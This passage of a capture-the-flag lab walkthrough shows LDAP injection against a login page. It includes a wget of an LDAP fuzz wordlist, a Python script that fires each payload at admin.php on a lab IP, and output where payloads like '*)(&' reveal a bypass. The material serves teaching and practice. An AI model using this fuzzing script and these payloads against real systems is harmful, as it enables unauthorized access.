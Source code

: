 **LDAP Injection**

Analyzing what the system could be using to authenticate users, possibly via LDAP, since this service is open, so I download a dictionary and develop a python script to test for LDAP Injection.

```console
root@kali:~$ wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt
```

```python
#!/usr/bin/env python3

import requests

target="http://192.168.179.140"

def login_ldap(target,u):
    r=requests.get(f"{target}/admin.php?username={u}&password=123")
    return len(r.text)

wordlist=open("LDAP_FUZZ.txt").read().splitlines()

if __name__=="__main__":
    for w in wordlist:
        print(f"{login_ldap(target,w):5} => {w}")
```

Then I run the script and we see a different value in the length of the request.

```console
root@kali:~$ python3 ldap_fuzz.py
... 
1663 => *)(&           
 962 => *))%00  
1663 => *()|%26'
...
```

We check this, and managed to bypass this login page.

![](/assets/images/symfonos5/screenshot-3.png)
